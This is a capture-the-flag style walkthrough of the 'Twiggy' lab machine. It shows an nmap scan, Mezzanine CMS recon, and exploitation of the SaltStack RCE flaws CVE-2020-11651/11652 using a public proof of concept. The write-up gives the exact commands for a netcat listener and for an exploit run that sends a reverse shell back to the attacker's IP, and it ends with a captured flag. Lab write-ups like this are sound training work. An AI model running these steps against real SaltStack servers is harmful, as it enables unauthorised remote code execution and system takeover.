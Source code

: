 ```yaml
---
aliases:
  - twiggy
tags:
  - pg-playground
  - linux
  - enumeration
  - exploitation
os: Linux
difficulty: Warm up
date: 2025-04-09
status: owned
---
```

### 1. Box Summary

| Field          | Value            |
| -------------- | ---------------- |
| Name           | Twiggy           |
| IP             | `192.168.145.62` |
| OS             | Linux            |
| Difficulty     | Medium           |
| Date Completed | 9 April 2025     |
| Exploited Via  | RCE              |
| Flags Captured | ✅ Root           |

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.145.62
```

Here's the report:

```
Nmap scan report for 192.168.145.62
Host is up (0.043s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.93 seconds
```

### 3. Web Recon

Browsing to `http://192.168.145.62:80`:

- Shows a site using **Mezzanine CMS**
    
- There's an **admin interface**, but login fails.

![screenshot](images/Twiggy-1744177123093.jpeg)


Tried some login guesses — nothing obvious.

![screenshot](images/Twiggy-1744178077284.jpeg)

Moved on to check `http://192.168.145.62:8000/` — it returns JSON but no content: time to do some research on ZeroMQ ZMTP 2.0 as well 

![screenshot](images/Twiggy-1744178200043.jpeg)

### 🔥 Exploitation: SaltStack RCE (CVE-2020-11651 / 11652)

Apparently we have something good on [exploitDB](https://www.exploit-db.com/exploits/48421) , let's just run Saltstack 3000.1 - Remote Code Execution like some script kiddie, and my guy actually uploaded a [poc](https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py) for it... good stuff

🔹 Create & Activate Virtual Environment
```
python3 -m venv salt-venv
source salt-venv/bin/activate
```

🔹 Install Dependencies
```
pip install salt==3002 msgpack PyYAML pyzmq jinja2 tornado requests
```

🛠️ Reverse Shell Prep
We will prep it by noting down:
- **Kali IP**: `192.168.45.197`
- **Target IP**: `192.168.145.62`
- **Listener Port**: `80`

🔹 Set up listener
```
nc -lvnp 80
```

🔹 Run the exploit
```
python3 exploit.py \
  --master 192.168.145.62 \
  --port 4506 \
  --shell-LHOST 192.168.45.197 \
  --shell-LPORT 80
```

![screenshot](images/Twiggy-1744181043545.jpeg)

Shell caught on listener:

![screenshot](images/Twiggy-1744181018801.jpeg)

FLAG:
```
02e2283f7e95835128a4a48a72dfd629
```
